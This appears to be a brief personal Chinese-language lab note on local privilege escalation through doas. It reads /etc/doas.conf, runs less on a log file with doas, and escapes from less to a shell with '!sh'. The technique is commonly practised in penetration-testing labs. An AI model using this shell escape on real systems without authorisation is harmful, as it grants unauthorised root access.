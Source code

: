 # doas 提权

![[Pasted image 20250628152254.png]]

```
cat /etc/doas.conf
```

![[图片/Pasted image 20250628152343.png]]

```
doas /usr/bin/less /var/log/authlog
```

v + Esc + : + !sh